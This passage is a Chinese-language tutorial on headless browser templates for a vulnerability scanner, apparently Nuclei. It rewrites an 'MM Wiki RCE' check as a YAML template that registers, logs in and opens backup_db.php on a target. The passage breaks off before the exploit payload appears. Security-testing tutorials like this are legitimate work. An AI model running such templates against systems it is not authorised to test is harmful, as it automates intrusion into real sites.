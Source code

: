无头模式模板提供了许多用于编写浏览器引擎脚本的动作。虽然我们不再这里一一描述，但一些常用的动作包括navigate、click、text、waitload和keypress。完整的动作列表可以在官方模板指南中找到。

为了演示一些常见动作，让我们重新编写我们的MM Wiki RCE模板以使用无头模式。

主要模板数据位于"headless"字段下。这应该包含”steps“(一系列动作)、”matchers“和”extractors“。

每个动作都需要参数，例如navigate动作的URL或text动作的文本值。许多常见的动作需要一个选择器来精确指出动作适用于哪个DOM元素，例如<input>或<button>元素。无头模板引擎提供了集中选择器类型，包括XPath、正则表达式或CSS选择器（ID或类）。在示例模板中，我们使用XPath选择器将click和text动作与响应的表单元素关联起来。

我们将MM Wiki RCE模板转换为使用无头模式交互的版本，如下所示：
```yaml
id: mmwiki-rce-headless
 
info:
  name: MMWiki RCE Headless Mode
  author: me
  severity: critical
 
headless:
  - steps:
      - action: navigate
        args:
          url: "{{BaseURL}}/register.php"
      - action: waitload
      - action: text
        args:
          by: xpath
          value: 65aca3e27440558a
          xpath: /html/body/div/form/div/input[1]
      - action: text
        args:
          by: xpath
          value: 65aca3e27440558a
          xpath: /html/body/div/form/div/input[2]
      - action: click
        args:
          by: xpath
          xpath: /html/body/div/form/div/button
      - action: waitload
      - action: navigate
        args:
          url: "{{BaseURL}}/index.php"
      - action: waitload
      - action: text
        args:
          by: xpath
          value: 65aca3e27440558a
          xpath: /html/body/div/form/div/input[1]
      - action: text
        args:
          by: xpath
          value: 65aca3e27440558a
          xpath: /html/body/div/form/div/input[2]
      - action: click
        args:
          by: xpath
          xpath: /html/body/div/form/div/button[1]
      - action: waitload
      - action: navigate
        args:
          url: "{{BaseURL}}/backup_db.php"
      - action: waitload
      - action: text
        args:
          by: xpath
```